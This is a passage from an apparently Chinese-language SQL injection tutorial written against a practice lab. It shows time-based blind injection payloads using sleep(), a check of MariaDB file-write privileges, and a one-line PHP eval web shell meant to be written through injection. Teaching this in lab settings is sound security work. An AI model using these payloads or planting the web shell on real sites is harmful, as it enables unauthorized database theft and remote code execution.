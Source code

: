 

### 4.3 时间盲注

时间盲注：web页面只返回一个正常页面利用页面响应时间不同，逐个猜解数据。

前提是数据库会执行命令代码，只是不反馈页面信息。

:::tip 时间盲注常用函数

函数if (condition,true,false) condition为条件，true当条件为真的时返回的值，flase当条件为假时返回的值

```sql
select if(ascii(substr((select database()),1,1))>100,sleep(1),sleep(3)); 	
```

:::

通过时间响应判断当前的数据库名的长度：

```sql
id=1' and if(ascii(substr((select database()),1,1))>=120,sleep(0),sleep(3))--+
```



### 4.4 文件上传

使用如下命令查看当前的靶场或者是数据库是否开启了读写文件的权限：

```sql
MariaDB [(none)]> show variables like '%secure%';
+--------------------------+-------+
| Variable_name            | Value |
+--------------------------+-------+
| require_secure_transport | OFF   |
| secure_auth              | ON    |
| secure_file_priv         |       |
| secure_timestamp         | NO    |
+--------------------------+-------+
4 rows in set (0.001 sec)
```

![image-20240507154553628](https://blog-1304715799.cos.ap-nanjing.myqcloud.com/imgs/image-20240507154553628.png?imageSlim)

这里的靶场环境要使用level-7，然后测试注入：

```sql
id=1'))--+
```

这里涉及到了文件上传指令，也就是一句话木马：

```php
<?php @eval($_POST['password']);?>
```





## 五、POST注入
